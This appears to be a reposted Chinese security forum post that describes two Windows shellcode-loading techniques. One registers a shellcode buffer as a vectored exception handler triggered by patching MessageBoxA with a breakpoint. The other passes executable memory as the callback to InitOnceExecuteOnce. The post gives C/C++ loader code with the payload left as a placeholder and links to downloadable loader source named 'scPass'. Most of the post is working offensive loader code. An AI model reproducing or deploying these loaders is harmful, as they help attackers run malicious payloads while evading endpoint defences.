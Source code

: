 1.AddVectoredExceptionHandler也可以用来加载shellcode  
如下：

    
    
    unsigned char buf[]="......";  
      
    DWORD addr = (DWORD)GetProcAddress(GetModuleHandleA("User32.dll"), "MessageBoxA");  
      
    DWORD old = 0;  
    VirtualProtect(&buf, 1, PAGE_EXECUTE_READWRITE, &old);  
    VirtualProtect((LPVOID)addr, 1, PAGE_EXECUTE_READWRITE, &old);  
      
    *(UCHAR*)addr = 0xCC;  
    AddVectoredExceptionHandler(1, (PVECTORED_EXCEPTION_HANDLER)&buf);  
    MessageBoxA(0, "abc", "abc", 0);  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230628094454.png)

2.InitOnceExecuteOnce  
利用这个api的第二个参数  
文档https://learn.microsoft.com/zh-cn/windows/win32/api/synchapi/nf-synchapi-
initonceexecuteonce  
使用如下

    
    
    unsigned char buf[]=".....";  
      
    DWORD old;  
    IMalloc* PIMalloc = NULL;  
    CoGetMalloc(MEMCTX_TASK, &PIMalloc);  
    void* buu = PIMalloc->Alloc(sizeof(buf));  
      
    RtlCopyMemory(buu, buf, sizeof(buf));  
    VirtualProtect(buu, PIMalloc->GetSize(buu), PAGE_EXECUTE_READWRITE, &old);  
      
    INIT_ONCE initonce;  
    LPVOID Context = NULL;  
    InitOnceExecuteOnce(&initonce, (PINIT_ONCE_FN)buu, 0, &Context);  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230628094455.png)

最后  
源代码我传在了阿里云，链接  
scPass  
https://www.aliyundrive.com/s/Tf3chWByXKp  
提取码: 6h2f  
点击链接保存，或者复制本段内容，打开「阿里云盘」APP ，无需下载极速在线查看，视频原画倍速播放。

注意！！使用时shc.csv文件需和exe文件在同一目录！！  
文章可能有错的地方，希望师傅们能提出来！

  *   *   * 

    
    
    转载：https://forum.butian.net/share/2065作者：旺崽欢迎大家去关注作者
